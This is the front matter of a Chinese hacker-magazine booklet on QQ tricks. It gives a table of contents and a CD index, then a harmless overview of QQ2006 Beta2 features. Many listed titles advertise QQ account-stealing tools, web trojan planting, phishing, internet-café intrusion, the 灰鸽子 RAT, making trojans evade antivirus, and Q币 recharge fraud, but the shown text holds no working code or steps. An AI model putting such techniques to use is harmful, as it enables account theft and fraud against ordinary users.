# QQ宝典2

## 黑客×档案图书系列

## 黑客×档案

## 升级版

- QQ整蛊使用技巧，让你的QQ更个性
- QQ聊天辅助工具，让你轻松玩转QQ
- QQ空间全攻略，让你的空间超炫酷
- QQ游戏刷分大全，让你的游戏更厉害
- QQ签名更新秘籍，让你随心所欲签QQ
- QQ充值绝招揭秘，让你的Q币永远也花不完
- QQ宠物培养大全，让你以高手风度也不会饿死

## QQ宝典随手，玩转QQ不用愁！





## 《黑客X档案》制作

## QQ宝典2


## 黑客×档案出品

书名：QQ宝典2

制作：《黑客X档案》编辑部

出品人：孙胜利

策划：杨东柱

编辑：丛林 张万怡 职业欠钱

平面设计：谭海梅

网址：http://www.hackerxfiles.net

电话：010-88560080

定价：人民币13.80元

所载文字和图片，经著作权人授权本社，未经许可，不得转载。版权所有，违者必究。

## 前言

作者

- **石头**：黑客X档案小编之一，也是杂志QQ栏目的负责人，除了QQ栏目外，石头还负责其它的一些栏目。
- **阿布**：黑客X档案的忠实读者及忠实作者之一，在X档案上曾经发表过多篇入侵类的文章。
- **侯金星**：黑客X档案的忠实读者兼作者，在近几期的X档案上大家都会看到他的文章的。
- **冰舞**：同样也是黑客X档案的忠实读者兼作者，也是侯金星的好朋友，在X档案上，大家经常会看到他的一些关于QQ技巧的文章。

去年X档案推出的《QQ宝典1》在菜鸟读者中获得了空前的好评，时至今日，还有许多读者打电话过来邮购，这让众小编非常感动。为了答谢这些热心的读者，小编石头亲自率领阿布、侯金星、冰舞等人隆重推出了《QQ宝典2》。相比《QQ宝典1》，《QQ宝典2》以目前最新的QQ2006为例，囊括了目前最新、最实用的各种QQ技巧、各种最新的QQ辅助工具的使用、各种QQ游戏的刷分大法、QQ宠物的获得及培养、QQ空间的个性使用、最新最实用的QQ盗号工具的使用以及最新的QQ充值大法等；而随书的配套光盘中则收录了各种QQ工具、QQ动画文件，以让读者能够亲自试手操练。


## 目录

| 文章名 | 页码 | 文章名 | 页码 |
|---|---|---|---|

## 第二章 玩转你的QQ

- 1.1 最新版QQ介绍 7
- 1.2 QQ聊天时常用的快捷键 9
- 1.3 QQ截图的另类用法 10
- 1.4 QQ远程协助时如何在对方电脑里输入字母 10
- 1.5 飞速登录QQ 11
- 1.6 把烦琐的QQ秀再免费发送给其他好友 11
- 1.7 带你走进QQ的数字世界 12
- 1.8 更改文件夹属性禁止QQ登录 13
- 1.9 加快QQ的传送文件速度 14
- 1.10 让QQ自动释放内存 14
- 1.11 使用QQ群的一些小技巧 15
- 1.12 收藏夹随身带 16
- 1.13 隐藏好自己的“状态” 16
- 1.14 鼠标快速改变QQ聊天窗口的字体 17
- 1.15 为QQ头像添加背景 17
- 1.16 无昵称的实现方法 18
- 1.17 找的通讯录你别瞧 18
- 1.18 无视黑名单 19
- 1.19 选择最快的服务器登录你的QQ 19
- 1.20 一次发送多个文件 20
- 1.21 延长QQ秀购物券的有效时间 20
- 1.22 用手机玩转QQ 21
- 1.23 QQLive十九大热点问题解答集 22
- 1.24 就要和陌生人说话 24
- 1.25 解除QQ手机绑定大全 25
- 1.26 将QQ邮箱免费升级到1GB 25
- 1.27 QQ密保的消除办法 26
- 1.28 QQ密码防盗十大建议 26
- 1.29 如何防止QQ、Q币和游戏币被盗 27
- 1.30 无敌的号码申诉技巧 28

## 第三章 QQ工具箱

- 2.1 QQ聊天记录也来谈保密 30
- 2.2 QQ密码保护查询 31
- 2.3 QQ黑客百宝箱 32
- 2.4 QQ七彩文字 33
- 2.5 QQ群登录快手 34
- 2.6 QQ头像变脸王 35
- 2.7 QQ小企鹅快捷外挂 35
- 2.8 QQ也玩虚拟摄像头 36
- 2.9 QQ字符画精灵 37
- 2.10 找个专家帮你泡MM 40
- 2.11 QQ聊天伴侣 40
- 2.12 教你来制作QQ贴图 41
- 2.13 教你批量挂QQ 42
- 2.14 QQ狙击手 45
- 2.15 三飞轻松实现隐藏IP 46
- 2.16 QQ的好搭档——珊瑚虫外挂 48
- 2.17 留住美好——视频录制 49
- 2.18 QQ木马安全 50
- 2.19 70K的迷你QQ 51
- 2.20 DIY自己的QQ安装程序 54

## 第三章 QQ宠物跟我玩

- 3.1 砸蛋得宠物 56
- 3.2 QQ宠物喂养攻略 57
- 3.3 QQ宠伴侣 63
- 3.4 雇个保姆照顾你的Q宠 64
- 3.5 请个管家管理你的Q宠 65

## 目录

| 文章名 | 页码 | 文章名 | 页码 |
|---|---|---|---|

## 第四章 Ozone全攻略

- 4.1 开通Ozone …… 67
- 4.2 在日志中保存个性签名 …… 67
- 4.3 在QQ空间中播放音乐 …… 68
- 4.4 空间相册 …… 68
- 4.5 收藏好友QQ空间 …… 68
- 4.6 控制空间访问权限 …… 69
- 4.7 玩转大头贴 …… 69
- 4.8 空间养花 …… 70
- 4.9 绕过QQ空间密码验证 …… 72
- 4.10 如何把QQ空间自动转换成跳转到Flash动画空间 …… 72
- 4.11 如何刷QQ空间人气 …… 73
- 4.12 在空间中显示我的心情 …… 74
- 4.13 无法进入空间的解决办法 …… 74
- 4.14 在空间中加入视频 …… 75
- 4.15 如何设置空间背景 …… 75
- 4.16 QQ空间代码的使用方法 …… 76
- 4.17 日志中插入透明Flash …… 78

## 第五章 QQ游戏

- 5.1 新版游戏大厅介绍 …… 79
- 5.2 各种QQ游戏的多开方法 …… 81
- 5.3 QQ堂刷分 …… 82
- 5.4 QQ四国军棋刷分 …… 84
- 5.5 QQ连连看作弊刷分 …… 85
- 5.6 QQ对对碰刷分 …… 86
- 5.7 火拼泡泡龙瞄准外挂 …… 87
- 5.8 QQ挖金子外挂来帮忙 …… 88
- 5.9 QQ五子棋刷分 …… 89
- 5.10 QQ斗地主刷分 …… 90

## 第六章 QQ研究院

- 6.1 传统挂马 …… 91
- 6.2 P2P、BT挂马 …… 97
- 6.3 钓鱼攻击 …… 99
- 6.4 盗Q神器之Qhook …… 101
- 6.5 盗Q神器之盗Q黑侠 …… 103
- 6.6 盗Q神器之疯狂QQ大盗 …… 104
- 6.7 盗Q神器之呼噜QQ大盗 …… 105
- 6.8 盗Q神器之极品QQ盗 …… 106
- 6.9 盗Q神器之完美QQ盗 …… 107
- 6.10 网吧入侵Follow Me …… 108
- 6.11 破解网吧还原保护 …… 112
- 6.12 社会工程盗号实战 …… 114
- 6.13 木马的伪装 …… 116
- 6.14 破解QQ邮箱 …… 118

## 第七章 QQ充值大曝光

- 7.1 基础篇之ADSL账号密码获取 …… 120
- 7.2 充Q币必学——灰鸽子使用全解 …… 121
- 7.3 刷Q币要起步 …… 124
- 7.4 手机卡刷QQ也疯狂 …… 126



## QQ宝典2 光盘索引



## 图书相关

- **QQ群登录快手**：是一款方便您管理和登录多个QQ账号的免费工具，支持显示上次登录时间和密码提示等功能。
- **QQ哄女孩子专家**：用于帮助用户进行追女生相关交流与辅助。
- **TenyQQ**：适合多QQ用户的绿色版工具，体积小、占用内存低。
- **Q宠保姆**：自动喂养QQ宠物的绿色软件，提供挂宠升级服务。
- **超级网上邻居**：可查询IP地址、计算机名、网卡MAC，并扫描同网段计算机。

## QQ教程

- QQ密保终结者视频教程
- 完全不懂编程的人制作个性绿色单文件的QQ
- 批量处理盗来的QQ
- 盗取盗QQ号者的ASP邮箱
- 批量验证QQ密码
- 砸蛋得QQ宠物，回答获取礼物
- 把QQ强制视频木马免杀
- 免费升级自己的QQ秀
- 教你30秒制出一套精美QQ秀
- 盗别人QQ空间代码教程
- QQ斗地主刷分
- 利用最新陈旧版本查QQ号
- QQ空间漏洞利用教程
- QQ空间人气1秒N点教程
- 《鸡生蛋蛋生鸡》+盗QQ教程
- 从抓肉鸡到刷所有QQ业务

## QQ工具

- **QQ宠物单机版3.5**：内有注册机。
- **腾讯付费个性头像三千个**：上传后延迟生效，相关文件位于QQ目录下userhead文件夹。
- **QQ免费魔法表情1.0完整版**：支持多版本QQ，可免费使用大量魔法表情。
- **QQ抓图**：QQ提取工具，小巧实用。

## 电子书籍

- 百度知道1850个经典问题
- 毕业论文写作宝典
- 电脑故障维修大全1.0
- 世界500强面试题
- 2006年度巨献电脑知识及技巧大合集
- Photoshop CS2大师之路
- 计算机密码学及其应用
- 电脑超级技巧5000招

### 最新版QQ介绍



五月初腾讯发布了QQ的最新版本——QQ2006 Beta2，下面我们来看看这个版本QQ2006 Beta2的新功能：

- 1. 新增了群内一起看QQ直播的功能
- 2. 新增了QQ音乐场景的功能
- 3. 新增了运行全屏程序时不自动弹出通知的功能
- 4. 新增了QQ音乐场景的功能
- 5. 开通移动在线功能
- 6. 改进了手机好友聊天窗口界面
- 7. 优化了群的基础体验，新增了群空间的功能
- 8. 新增了身份验证中的问题设置功能
- 9. 新增了Q宠聊天伴侣的功能
- 10. 优化了邮件到达提醒的体验

## 群内一起看直播，独乐不如与人同乐

新增群内一起看QQ直播功能，感受一帮人边看边聊的精彩。群聊天窗口上方增加了群直播的按钮，点击后便可以在群窗口内看直播了（图1）。节目精彩时，还可以通知群友一起看哦，轻轻一点播放区的节目通知按钮，在线的群成员就会收到带有当前节目截图的通知消息，只要他/她点击通知消息，就可以与你观看同一节目（图2）。如果不满意还可以随时换台，点击播放区的换台按钮更换（图3）。在群设置中可以设置群默认播放频道和通知权限（图4）。







## 全屏不自动弹出通知，办公游戏免打扰

“你是否有过以下经历：玩游戏的时候，在关键时刻，突然右下角弹出了通知消息；给客户演示PPT文档的时候，突然一个视频请求跳出来。QQ想你所想，在QQ2006 Beta2中新增了运行全屏程序时不自动弹出通知功能，让你一劳永逸地免除全屏时的信息骚扰。同时提供单次有效的不自动弹出通知功能，只要你选择了该功能，不管是否在运行全屏程序，都不会弹出任何消息（图5、6）。





## QQ音乐场景，聊出七彩音符

一成不变的聊天窗口好单调，快让音乐给我们烘托出想要的气氛吧。“QQ音乐场景”是聊天场景的升级版本，不仅支持绚丽多彩的聊天背景，还能够与好友共享音乐，与好友同听一首歌，秀出你的音乐品位，QQ音乐场景让你在小小聊天窗口，也刮起个性音乐风潮（图7）。

